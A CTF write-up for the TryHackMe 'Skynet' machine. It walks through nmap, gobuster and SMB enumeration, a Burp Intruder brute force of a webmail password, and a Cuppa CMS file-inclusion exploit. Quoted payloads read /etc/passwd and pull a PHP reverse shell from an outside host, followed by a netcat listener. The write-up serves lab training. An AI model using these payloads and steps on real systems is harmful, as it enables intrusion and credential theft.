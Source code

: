 
![intro](https://github.com/user-attachments/assets/f9d84f33-79f8-494d-993e-1398ae195ed4)

# tryhackme-Skynet-writeup
This is a walkthrough for the tryhackme CTF Skynet. I will not provide any flags or passwords as this is intended to be used as a guide.

## Scanning/Reconnaissance

First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:
```bash
nmap -A -v $ip -D RND:10 -oN nmap.txt
```

Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals a few open ports that will prove very useful:

![nmap1](https://github.com/user-attachments/assets/b1fe2435-176d-40e8-94e4-4638fa50b40e)

First, let check out the webserver on port 80. It takes use to a skynet search engine, that doesn't seem to have much of any functionality.

![skynet search](https://github.com/user-attachments/assets/f03da96c-57b1-45b4-9faa-e5f1ff157a88)

Ok, let's try a gobuster scan on the target.
```bash
gobuster dir -u $ip -w=/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -x php,txt,html -o bust.txt
```
The scan reveals a few interesting directories:

![buster](https://github.com/user-attachments/assets/fc0b7eba-d432-4df7-adc7-059c36c20d41)

![nikto](https://github.com/user-attachments/assets/3fd6b280-f9c4-4f27-84bb-446aaf06644e)


Most of them are forbidden, but squirrelmail takes us to a webmail login. This must be the 110/tcp pop3 port that was revealed in the nmap scan. I tried to log in with some default credentials but no luck. Let's take note of the error message "Unknown user or password incorrect."

# SMB Enumeration
Our nmap scan revealed 445/tcp for smbd Samba. 

![nmap smb](https://github.com/user-attachments/assets/0b5faf0f-148e-4228-88a6-695927533129)

A good tool for digger deeper on this is enum4linux. 
```bash
enum4linux $ip | tee enum.txt
```
The scan revealed a list of shares, including anonymous where the mapping wasn't denied, and /milesdyson share. 
Let's try to log onto the anonymous share using smbclient and no password: 

![smbclient anon](https://github.com/user-attachments/assets/72391461-7bd5-4038-9e34-0b40e78c2057)

And we're in! Use get attention.txt and log1.txt as we can see that log1 is only file containing info. Let's make a smb dir and move the files into it:
```bash
mkdir smb | mv attention.txt log1.txt smb
```

![smb files](https://github.com/user-attachments/assets/e1d6ab6d-5abb-4f16-b45e-c923b5873b18)

So we have a message from Miles Dyson about changing passwords and a wordlist, which likely contains a valid password. Let's try to attack Mile's password to squirrelmail.
Since we're dealing with a pretty small number of possible passwords, I'll just use burp suite to attack the login. Turn on burp proxy to capture the post login request, right click the request and sent to intruder. Leave sniper attack selected and position the payload markers on the password, (in my case I just used admin) as shown in the screen shot. Next, move to the payloads tab, and load the smb wordlist log1.txt and click attack. Before long the password will be revealed as it results in a different status and length:

![sniper results](https://github.com/user-attachments/assets/89891a06-33d4-4b14-994a-be277c94fdfc)

We can now log into Miles mail with milesdyson and the password.

There are a couple messages from serenakogan@skynet that appear to contain an encoded binary message. Let's head to CyberChef and decode from binary. We get the message "balls have zero to me to me to me to me to me to me to me to me to". The other message from her is not encrypted and apears to have more song lyrics "i can i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i i can i i i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i . . . . . . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i i i i i everything else . . . . . . . . . . . . . .
balls have 0 to me to me to me to me to me to me to me to me to
you i i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me t".
I did a little research on what this is, and it was reported on a Facebook AI experiment, where bots who were programmed to engage in negotiations began to develop their own language and this was from bot negotiations. Interesting, but unrelated to this CTF's progress. Here's a link to an article if you interested: https://www.poetryfoundation.org/harriet-books/2017/06/balls-have-zero-to-me-to-me-ais-non-human-language

Let's check out the email samba password reset. It sure enough it has Mile's password for smb login.
Now let's use smbclient again to log onto the smb share:
```bash
smbclient -U milesdyson //$ip/milesdyson
```
And we're in! There's a lot of irrelivent files here, so let's just cd into notes. There's a file called important.txt and I bet it is important. Let's get it.

![important](https://github.com/user-attachments/assets/8fd28c32-991c-4256-a266-fce4f6941628)

This is the T 800 by the way:

![T 800](https://github.com/user-attachments/assets/443575a4-e053-40a5-9523-a7bfa7124a05)

CMS /45kra24zxs28v3yd is a hidden directory:

![hidden dir](https://github.com/user-attachments/assets/06e7034e-fc47-4ee6-b63e-a50fbcad115f)

It's a bio page for Dr. Miles Dyson, but it doesn't seem to have anything else of interest. Let's do a gobuster scan to see if it leads to other hidden directories:
```bash
gobuster dir -u $ip/45kra24zxs28v3yd -w=/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -x php,txt,html -o bust.txt
```
And this reveals an administrator directory:


![cuppa cms](https://github.com/user-attachments/assets/8a36934b-9b82-4bb1-835d-8a265ca543d4)

I tried logging in with the credentials we found earlier but no luck. Let's try searching for vulnerabilities in this "cuppa cms" with searchsploit.

![searchsploit](https://github.com/user-attachments/assets/24dcf396-5117-43f4-972f-947882757361)

Here's a run down of the exploit: 
#####################################################
DESCRIPTION
#####################################################

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

#####################################################
EXPLOIT
#####################################################

http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

So, let's try to get the /etc/passwd file first. Our crafted payload should look like this but with whatever your target IP is:
```bash
http://10.10.19.189/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```
And we have the /etc/passwd file, which we will save.
Now, let's craft a payload based off the the first example to get a reverse shell. We'll head to revshells.com, input your IP and port(I'm using the default 9001. Now scroll down on the left and I'm going to use the PHP Pentest Monkey shell. Save it as a file on your machine. Set up a netcat listener on the listening port in our shell.
```bash
nc -lvnp 9001
```
And set up a python server:
```bash
python3 -m http.server
```
Our crafted payload should look like this, except the target IP and whatever your named your shell file:
```bash
http://10.10.33.12/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.184.75:8000/monkey.php
```
And we down have a reverse shell as www-data! Upgrade your shell as shown in the screen shot:

![shell](https://github.com/user-attachments/assets/c75151c8-6f82-47a1-bf9b-9635d0615000)

Just to avoid confusion, after setting the xterm, and suspending your shell. The two are stty commands are to copy your ability to use tab completion and are entered form your machine:
```bash
stty raw -echo; fg
```
```bash
stty rows 16 columns 138
```
# Privilege Escalation
Now, let's find a way to escalate privilages.
In mile's home directory we can cat user.txt.
I also found an interesting file backups/backup.sh:

![image](https://github.com/user-attachments/assets/71faab58-630e-42a4-b1bd-61611c13d212)

